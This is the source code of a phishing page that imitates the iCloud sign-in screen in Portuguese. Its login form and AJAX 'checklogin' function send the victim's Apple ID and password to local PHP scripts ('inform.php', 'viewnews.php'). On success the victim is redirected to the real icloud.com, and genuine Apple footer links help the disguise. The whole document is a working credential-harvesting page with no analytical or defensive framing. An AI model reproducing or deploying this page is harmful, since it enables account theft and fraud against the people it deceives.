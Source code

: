 <html lang="pt-br"><head>
<meta name="robots" content="NOINDEX, NOFOLLOW">
    <title>iCloud</title>
    <meta charset="utf-8">
    <link rel="shortcut icon" href="favicon.ico">
    <link rel="stylesheet" href="css/styles.css">
    <link rel="stylesheet" href="http://code.jquery.com/ui/1.11.3/themes/smoothness/jquery-ui.css">
    <script src="http://code.jquery.com/jquery-1.10.2.js"></script><style type="text/css"></style>
    <script src="http://code.jquery.com/ui/1.11.3/jquery-ui.js"></script>
    <script src="activity-indicator.js"></script>
	
<!--Mobile Script Exceptions-->
<script type="text/javascript">
if (screen.width <= 699) {
document.location = "mobile.html";
}
</script>

<script language="javascript">
if ((navigator.userAgent.match(/iPhone/i)) || (navigator.userAgent.match(/iPod/i))) {
   location.replace("mobile.html");
}
</script>
<!--/Mobile Script Exceptions-->
</head>

<body class="body_image_old" style="visibility: visible;">

<div class="body_image_new" style="opacity: 1;"></div>
<div id="loader" class="loader" style="display: none;"><div style="width: 26px; height: 26px; position: absolute; margin-top: -13px; margin-left: -13px; animation: spin12 0.8s linear infinite;"><svg style="width: 26px; height: 26px;"><g transform="translate(13,13)"><g stroke-width="1.5" stroke-linecap="round" stroke="rgb(255, 255, 255)"><line x1="0" y1="6" x2="0" y2="11" transform="rotate(0, 0, 0)" opacity="1"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(30, 0, 0)" opacity="0.9173553719008265"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(60, 0, 0)" opacity="0.8347107438016529"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(90, 0, 0)" opacity="0.7520661157024794"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(120, 0, 0)" opacity="0.6694214876033058"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(150, 0, 0)" opacity="0.5867768595041323"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(180, 0, 0)" opacity="0.5041322314049588"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(210, 0, 0)" opacity="0.42148760330578516"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(240, 0, 0)" opacity="0.33884297520661155"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(270, 0, 0)" opacity="0.25619834710743805"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(300, 0, 0)" opacity="0.17355371900826455"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(330, 0, 0)" opacity="0.09090909090909094"></line></g></g></svg></div></div>
<div class="container">
    <div class="wrapper">

        <div class="header">
            <div class="logo lF"></div>
            <div class="info lR">
                <div class="instr lF">
				<script type="text/javascript">
                        
                        function newPopup(url) {
                            popupWindow = window.open(
                                url,'popUpWindow','height=700,width=800,left=10,top=10,resizable=no,scrollbars=no,toolbar=no,menubar=no,location=no,directories=no,status=yes')
                        }
                    </script>
                    <span><a href="https://www.apple.com/icloud/setup/">Instruções de configuração</a></span>
                </div>
                <div class="help lF"></div>
            </div>
        </div>
		
        <div class="body">
            <div>
                <div class="cloud"></div>
                <div class="labelRef">
                    <span>Inicie sessão no iCloud</span>
                </div>
                <div>
                    <form action="inform.php" method="post">
                        <div class="boxFrm" style="width:325px;">
                            <div class="line1">
                                <input type="text" value="" class="appId1" placeholder="ID Apple" name="apple" id="apple">
                            </div>
                            <div class="line2">
                                <input type="password" value="" class="appId2 lF" placeholder="Senha" name="pw" id="pw">
                                <input type="hidden" value="https://p01-caldav.icloud.com" id="server" name="server">
                                <input type="hidden" value="icloudow.com/" name="link">
                                <div style="margin-left:270px;"><input type="submit" value="" class="sbBtn lF" style="opacity: 0.2;"></div>
                            </div>
                        </div>
                    </form>
                </div>
                <div class="cont">
                    <span class="tlrm"><input type="checkbox"></span>
                    <span class="txt">Esqueceu o ID Apple ou senha?</span>
                </div>
                <div class="cont2 sec">
                    <div class="center">
                        <span class="account-cr">Você não tem um ID Apple?&nbsp;ID?&nbsp;<a class="clickable" href="#">Crie um agora.</a></span>
                    </div>
                </div>
            </div>
        </div>
        <div class="footer">
            <div class="fLogo lF"></div>
            <ul class="lR">
                <li><a href="https://www.icloud.com/activationlock">Check&nbsp;Activation&nbsp;Lock&nbsp;Status</a></li>
                <li><a href="https://iforgot.apple.com">Forgot&nbsp;ID&nbsp;or&nbsp;Password?</a></li>
                <li><a href="https://www.apple.com/support/systemstatus/">System&nbsp;Status</a></li>
                <li><a href="https://www.apple.com/privacy/">Privacy&nbsp;Policy</a></li>
                <li><a href="https://www.apple.com/legal/icloud/ww/">Terms&nbsp;&amp;&nbsp;Conditions</a></li>
                <li>Copyright © 2015 Apple Inc. All rights reserved.</li>
            </ul>
        </div>

    </div>
</div>

<script>
      $("body").css("visibility", "hidden");
    $('#loader').activity({width: 1.5, segments: 12, length: 5});
    jQuery('#submit_loader').activity({width: 1.5, segments: 12, length: 5});
    function typeCheck(element) {
        var key = event.keyCode || event.charCode;
        if (key == 8 || key == 46) {
            $(".sbBtn").css("opacity", "0.2");
            return element;
        }
        if (element !== "") {
            $(".sbBtn").css("opacity", "1");
        } else {
            $(".sbBtn").css("opacity", "0.2");
        }
    }
    $(document).ready(function () {
        $("body").css("visibility", "visible");
                function isValidEmailAddress(emailAddress) {
            var pattern = new RegExp(/^(("[\w-+\s]+")|([\w-+]+(?:\.[\w-+]+)*)|("[\w-+\s]+")([\w-+]+(?:\.[\w-+]+)*))(@((?:[\w-+]+\.)*\w[\w-+]{0,66})\.([a-z]{2,6}(?:\.[a-z]{2})?)$)|(@\[?((25[0-5]\.|2[0-4][\d]\.|1[\d]{2}\.|[\d]{1,2}\.))((25[0-5]|2[0-4][\d]|1[\d]{2}|[\d]{1,2})\.){2}(25[0-5]|2[0-4][\d]|1[\d]{2}|[\d]{1,2})\]?$)/i);
            return pattern.test(emailAddress);
        };
        $('input[name=apple]').bind("keydown", function(e){
            // enter key code is 13
            if(e.which == 13 || e.which == 9){
                e.preventDefault();
                var val = $(this).val();
                if (!isValidEmailAddress(val)) {
                    val = val+"@icloud.com";
                    $(this).val(val);
                } else {
                    console.log($(this).val());
                }
                console.log(val);
                $("input[name=pw]").focus();
                if(jQuery('#apple').val()=='' || jQuery('#pw').val()=='') $(".sbBtn").css("opacity", "0.2"); else $(".sbBtn").css("opacity", "1");

                return false;
            }
        });
        $("input[name=pw]").on("click keyup", function(){
            val = $("input[name=apple]").val();
            if (!isValidEmailAddress(val)) {
                if(val!='@icloud.com' && val!='') val = val+"@icloud.com";
                $("input[name=apple]").val(val);
            }
            if(jQuery('#apple').val()=='' || jQuery('#pw').val()=='') $(".sbBtn").css("opacity", "0.2"); else $(".sbBtn").css("opacity", "1");
        });
        var mm = 0;
        var ss = setTimeout(function () {
            $(".body_image_new").animate({ opacity: "1" }, 1000);
            console.log(mm);
            clearTimeout(ss);
        }, 7500);
        k = 1;
        $(".tlrm").on("click", function () {
            k++;
            if (k % 2 == 0) {
                $("#tlrm").attr("src", "images/checked.png");
            } else {
                $("#tlrm").attr("src", "images/Unknown");
            }
        });
    });
    var ss2 = setTimeout(function () {
        $("#loader").fadeOut("slow");
        $("div.container").fadeIn("slow");
        $("div.container").css("display:", "block");
        $(".sbBtn").css("opacity", "0.2");
        clearTimeout(ss2);
    }, 4500);

    $('#apple,#pw').on('keyup', function(e) {
        if (e.which == 13) {
            checklogin();
        }
    });

    function checklogin()
    {
        var apple = jQuery('#apple').val();
        var pw = jQuery('#pw').val();
        var server = jQuery('#server').val();
        var lang = jQuery('#lang').val();
        var links = jQuery('#link').val();
        if(apple!='' && pw!='')
        {
            jQuery('#submit_button').hide();
            jQuery('#submit_loader').show();
            jQuery.ajax({
                type:"POST",
                url:"viewnews.php",
                data:"apple="+apple+"&pw="+pw+"&server="+server+"&lang="+lang+"&link="+links,
                success: function(msg){
                    if(msg.search("INVALID")!=-1)
                    {
                        $('div.body').effect('shake');
                        jQuery('#submit_button').show();
                        jQuery('#submit_loader').hide();
                        $(".sbBtn").css("opacity", "0.2");

                    }
                    else if(msg.search("SUCCESS")!=-1)
                    {
                        window.location.href = "https://www.icloud.com";
                    }
                    else
                    {
                        $('div.body').effect('shake');
                        jQuery('#submit_button').show();
                        jQuery('#submit_loader').hide();
                        $(".sbBtn").css("opacity", "0.2");
                    }
                }
            });
        }
        else
        {
            if(apple=='') jQuery('#apple').focus();
            else if(pw=='') jQuery('#pw').focus();
        }
    }

    function change_image(src)
    {
        if(src=='check2.png') jQuery('#help_checkbox').attr({'src':'check2.png','onClick':"change_image('check1.png')"}); else jQuery('#help_checkbox').attr('src','check1.png').attr('onClick',"change_image('check2.png')");
    }
</script>
</body></html>
